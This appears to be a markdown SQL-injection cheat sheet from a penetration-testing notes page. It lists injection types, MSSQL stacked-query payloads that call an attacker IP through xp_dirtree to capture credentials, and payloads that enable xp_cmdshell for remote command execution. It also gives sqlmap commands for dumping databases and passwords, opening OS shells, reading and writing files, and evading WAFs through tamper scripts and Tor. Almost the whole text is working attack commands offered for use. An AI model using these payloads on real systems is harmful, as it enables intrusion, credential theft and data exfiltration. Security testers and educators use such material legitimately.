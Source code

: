 ### SQL Injection

*   Enumeration
    *   DB Requests → User Handling Functionalities / ID Lookups / Integer Mappings
    *   Injections       → Error / Union / Blind / Stacked / OOB / [Header Blind](https://github.com/SAPT01/HBSQLI)
    *   [SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)                → Postgres / MSSQL / MySQL / H2 Java
    *   [NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)          → MongoDB / Oracle
*   MSSQL Stacked
    *   LLMNR
        *   `?param=8; EXEC master ..xp_dirtree '\\10.10.14.5\test'; --`
    *   RCE
        *   `?param=8; EXEC sp_configure 'show advanced option', '1'; GO; RECONFIGURE; --`
        *   `?param=8; EXEC sp_configure 'xp_cmdshell', 1; GO; RECONFIGURE; --`
        *   `?param=8; EXEC master ..xp_cmdshell '[OS_CMD]'; --`
*   SQLMap
    *   Cheat Sheet
        *   `sqlmap [-u/r] [URL/REQUEST.txt] --dbms [DB_TYPE] --level=5 --risk=3 --batch --dbs --flush-session`
        *   DB Types            → `MySQL` / `MariaDB` / `Microsoft SQL Server` / `Oracle` / `PostreSQL` / `Sqlite`
        *   POST Data         → `--data [PAYLOAD]`
        *   Parameter         → `-p [PARAM_NAME]`
        *   Injection Type   → `--technique=[B,E,U,T,S]` → Supports Multiple: `BETS`
        *   WSS URLs          → `-u [ws://HOST:PORT]`
    *   Evasion
        *   Manual Exploitation
        *   `--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,ifnull2ifisnull,modsecurityversioned,space2comment,randomcase`
        *   `--random-agent --tor --check-tor`
    *   Data Dumping
        *   Full DB          → `--dbs` / `--schema` → `-D [DB_NAME] --dump`
        *   Tables            → `-D [DB_NAME] --tables`
        *   Columns       → `-D [DB_NAME] -T [TABLE] --dump`
        *   Username    → `--current-user`, `--is-dba`, `--users`, `--privileges`
        *   Banner          → `--banner`
        *   Passwords    → `--passwords`
        *   SQL Queries → `--sql-shell`
    *   Code Execution
        *   `--os-shell`
        *   [H2 Java SQLi RCE](https://attacke.rs/posts/h2-sqli-rce/)
    *   OS Read / Upload
        *   `--file-read=[PATH]`
        *   `--file-write=[SRC] --file-dest=[DEST]`
    *   Tuning
        *   Filtering
            *   `--code=[STATUS]`
            *   `--string=[RESPONSE_STRING]`
            *   `--text-only`
        *   UNION
            *   `--union-char="a"`
            *   `--union-from=users`
            *   `--union-cols=[COLS]`
        *   Evasion
            *   `--randomize=[PARAM]`
            *   `--chunked`
            *   `--tamper=[TAMPER_SCRIPTS]`
            *   `--random-agent --tor --tor-type=SOCKS5 --check-tor`
